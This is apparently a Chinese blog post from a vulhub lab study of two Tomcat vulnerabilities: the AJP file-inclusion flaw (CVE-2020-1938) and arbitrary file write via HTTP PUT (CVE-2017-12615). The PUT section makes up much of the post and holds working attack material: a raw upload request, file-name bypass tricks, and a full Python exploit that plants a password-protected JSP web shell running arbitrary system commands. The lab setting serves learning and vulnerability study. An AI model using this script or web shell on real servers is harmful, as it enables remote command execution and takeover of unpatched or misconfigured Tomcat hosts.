







vulhub学习AJP文件包含漏洞与PUT写文件漏洞
AJP文件包含漏洞与PUT写文件漏洞
AJP文件包含漏洞CVE-2020-1938
00 环境搭建
- docker路径 tomcat/CVE-2020-1938
- 启动
- docker-compose build
- docker-compose up -d
- 关闭 docker-compose down
01 原理
tomcat默认的conf/server.xml中配置了2个Connector，一个为8080的对外提供的HTTP协议端口，另外一个就是默认的8009 AJP协议端口
漏洞是Tomcat AJP协议存在缺陷而导致，攻击者利用漏洞可以构造特定参数，读取服务器webapp/ROOT下的任意文件。若目标服务器同时存在文件上传功能，攻击者可进一步通过文件包含实现远程代码执行
影响范围
- Apache Tomcat 6
- Apache Tomcat 7 < 7.0.100
- Apache Tomcat 8 < 8.5.51
- Apache Tomcat 9 < 9.0.31
02 复现
从docker启动镜像，打开ip:8080
启动成功，版本为9.0.30
注意要用python2运行
使用方法：

默认端口8009
默认读取文件路径WEB-INF/web.xml
运行后读取成功

PUT写文件漏洞CVE-2017-12615
00 环境搭建
- docker路径 tomcat/CVE-2017-12615
- 启动
- docker-compose build
- docker-compose up -d
- 关闭 docker-compose down
01 原理
漏洞的产生是由于配置不当（非默认配置），将配置文件（conf/web.xml）中的readonly设置为了false，导致可以使用PUT方法上传任意文件
影响范围
- 7.0.0~7.0.79
02 复现
从docker启动镜像，打开ip:8080

启动成功，版本为8.5.19 不知道为什么与影响范围不同
用burpsuite发包，查看响应发现写入成功

请求内容
PUT /test1.jsp/ HTTP/1.1
Host: 192.168.2.108:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 43
<%
out.println("Hello World");
%>访问 test1.jsp

成功执行jsp代码
几个绕过方法
- shell.jsp%20
- shell.jsp::$DATA
- shell.jsp/
一个利用脚本
import requests
import sys
import time
'''
Usage:
python CVE-2017-12615.py http://127.0.0.1
shell: http://127.0.0.1/py1.jsp?pwd=pass&cmd=whoami
'''
proxies = {
"http": "http://127.0.0.1:8080",
"https": "http://127.0.0.1:8080",
}
def attack(url):
user_agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.103 Safari/537.36"
headers={"User-Agent":user_agent}
data="""<%
if("pass".equals(request.getParameter("pwd"))){
java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();
int a = -1;
byte[] b = new byte[2048];
out.print("<pre>");
while((a=in.read(b))!=-1){
out.println(new String(b));
}
out.print("</pre>");
}
%>"""
try:
requests.put(url, headers=headers, data=data, proxies=proxies)
time.sleep(2)
verify_response = requests.get(url[:-1], headers=headers)
if(verify_response.status_code == 200):
print('success!')
else :
print(verify_response.status_code)
except :
print("error")
if __name__ == '__main__':
target_url = sys.argv[1] + '/py1.jsp/'
attack(target_url)
print('shell: ' + target_url[:-1])密码pwd为pass
指令cmd为自己输入
以上设置了代理可以用于抓包分析，不需要可以去掉
执行成功

访问并执行whoami命令

执行成功
本博客所有文章除特别声明外，均采用 CC BY-SA 3.0协议 。转载请注明出处！